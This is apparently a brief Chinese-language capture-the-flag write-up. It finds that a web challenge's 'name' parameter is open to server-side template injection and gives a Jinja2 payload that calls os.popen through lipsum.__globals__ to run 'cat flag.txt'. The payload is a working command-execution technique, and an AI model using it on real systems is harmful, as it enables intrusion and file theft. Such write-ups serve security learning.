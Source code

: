 ![upload successful](/images/pasted-481.png)
得到参数是name

![upload successful](/images/pasted-482.png)
测试发现存在SSTI模板注入

payload:`/?name={{lipsum.__globals__['os'].popen('cat flag.txt').read()}}`
